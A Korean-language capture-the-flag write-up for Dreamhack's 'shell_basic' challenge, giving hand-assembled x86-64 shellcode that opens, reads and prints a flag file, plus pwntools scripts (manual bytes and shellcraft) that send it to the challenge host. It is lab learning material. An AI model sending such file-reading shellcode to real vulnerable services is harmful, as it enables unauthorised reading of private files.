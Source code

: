 ## shell_basic
---

입력한 셸코드를 실행하는 프로그램입니다.

main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.

flag 위치와 이름은 ```/home/shell_basic/flag_name_is_loooooong```입니다.

<br><br>

## Solution 1 (셸코드를 만들어서 보내기)
---

어셈블리 코드를 짜서 보냈다.

<br>

```nasm
; File name: shellcode.asm

section .text
global _shell

_shell:

    ; Flag Path : /home/shell_basic/flag_name_is_loooooong
    ; 2f686f6d652f7368 656c6c5f62617369 632f666c61675f6e 616d655f69735f6c 6f6f6f6f6f6f6e67
    ; int fd = open("/home/shell_basic/flag_name_is_loooooong",R_DONLY,NULL)
    
    xor rax, rax    ; NULL,
    push rax
    mov rax, 0x676e6f6f6f6f6f6f ;6f6f6f6f6f6f6e67
    push rax
    mov rax, 0x6c5f73695f656d61 ; 616d655f69735f6c
    push rax
    mov rax, 0x6e5f67616c662f63 ; 632f666c61675f6e
    push rax
    mov rax, 0x697361625f6c6c65 ; 656c6c5f62617369
    push rax
    mov rax, 0x68732f656d6f682f ; 2f686f6d652f7368
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x2
    syscall

    ; read(fd, buf, 0x30)
    mov rdi, rax
    mov rsi, rsp
    sub rsi, 0x30
    mov rdx, 0x30
    xor rax, rax
    syscall

    ; write(1, buf, 0x30)
    mov rdi, 0x1
    mov rax, 0x1
    syscall
```

<br>

```linux
$ nasm -f elf64 shellcode.asm
$ objcopy --dump-section .text=shellcode.bin shellcode.o
$ xxd shellcode.bin
```

<br>

방법은 2가지가 있는데, 직접 출력결과를 nc의 입력값으로 보내는 것과, pwntools로 보내는 방법이 있다.

직접 보내는 것은 단순하게 ```cat shellcode.bin | nc host3.dreamhack.games 15305```로 보내면 된다.

pwntools는 아래와 같다.

<br>

출력 결과를 보고 16진수 형태의 바이트를 만들어 주면 된다. (일일이 해야만 하나?)

따라서 만들어진 셸코드는 아래와 같다.

<br>

shellcode = ```\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05```

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games', 17070)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05\x48\x31\xff\xb8\x3c\x00\x00\x00\x0f\x05"

p.sendlineafter('shellcode:',shellcode)
print(p.recvall())
```

<br><br>
<br><br>

## Solution 2 (pwntools shellcraft 사용)
---

Link : <a href="https://docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib-shellcraft-amd64-shellcode-for-amd64" target="_blank">docs.pwntools.com/en/stable/shellcraft/amd64.html#pwnlib-shellcraft-amd64-shellcode-for-amd64</a>

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games', 20429)

context(arch='amd64', os='linux')

sh = shellcraft.open('/home/shell_basic/flag_name_is_loooooong')
sh += shellcraft.read('rax', 'rsp', 50)
sh += shellcraft.write(1,'rsp', 50)

p.sendlineafter(':', asm(sh))
print(p.recvall())#.decode('cp949')) 또는 p.interactive()
```

<br>

또는 풀이를 보니 이런 것도 있었다.

<br>

```python
from pwn import *

p = remote('host3.dreamhack.games', 20429)

context(arch='amd64', os='linux')

sh = shellcraft.cat("/home/shell_basic/flag_name_is_loooooong")
p.sendlineafter(":", asm(sh))
p.interactive()
```
